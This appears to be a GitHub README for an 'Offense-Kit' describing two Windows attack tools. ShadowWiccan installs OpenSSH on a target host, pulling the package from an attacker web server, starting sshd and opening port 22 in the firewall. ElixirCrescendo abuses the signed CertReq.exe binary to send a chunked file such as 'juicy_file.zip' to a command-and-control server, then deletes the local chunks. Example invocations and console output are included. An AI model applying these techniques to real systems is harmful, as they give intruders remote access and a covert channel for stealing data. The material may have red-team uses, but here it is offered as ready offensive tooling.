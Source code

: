 # Offense-Kit

## ShadowWiccan

An OpenSSH install wrapper for Windows. Download the [official Windows OpenSSH package](https://github.com/PowerShell/Win32-OpenSSH/releases) then move zip to target box or host on a web server. ShadowWiccan will create and work out of C:\ProgramData\ssh, get the ssh.zip, unzip, install, start needed services and add a firewall rule. You can get the SSH zip package from a UNC path(-f) or via web request(-w) and uninstall when you're done (-u). You'll need to have admin. Tested with OpehSSH version v8.1.0.0p1-Beta.

```
C:\>ShadowWiccan.exe -w "http://MyCoolSite/ssh.zip"
* * * * * * * * * * * * * * * * * * * * * * * * * *
      ╔═╗┬ ┬┌─┐┌┬┐┌─┐┬ ┬╦ ╦┬┌─┐┌─┐┌─┐┌┐┌
      ╚═╗├─┤├─┤ │││ ││││║║║││  │  ├─┤│││
      ╚═╝┴ ┴┴ ┴─┴┘└─┘└┴┘╚╩╝┴└─┘└─┘┴ ┴┘└┘
* * * An OpenSSH install wrapper for Windows * * *

[+] Downloading OpenSSH via HTTP
    http://127.0.0.1/ssh.zip

[+] OpenSSH payload written to:
    C:\ProgramData\ssh\ssh.zip
   [+] Unzipping and Installing
      [+] Install script found! Installing...
          _  _|\_
         | |  ("}
         >_<_.-@-._ _ /*  * S ^ *  H ~ *
          \--,  .-`*(/   * `  S +*  ^
          |  /==\
          |  |   \
          |  /___\
      [+] Done.

[+] Configuring OpenSSH
   [+] Service 'sshd' started successfully
   [+] Service 'ssh-agent' started successfully
   [+] Firewall rule 'WinOpenSSHD' added to allow port 22 in

[+] OpenSSH install and configuration COMPLETE
[+] Enjoy your accessh!
```


## ElixirCrescendo

Send a chunked file via a HTTP POST request using the built-in signed binary CertReq.exe. C# app will encode file, chunk into 63KB files (since certreq can only send less than 64KB per request), send each to specified C2 then delete the local chunked files. Just setup your C2 to write/log the content of incoming POST requests.

```
  *  *  * ElixirCrescendo *  *  *
             O*  .
               0   *
              .   o
             o   .
           _________
         c(`       ')o
           \.     ,/
          _//^---^\\_
  --CertReq.exe Exfil Wrapper--

Example:
    C:\>ElixirCrescendo.exe "C:\CoolFolder\juicy_file.zip"
```




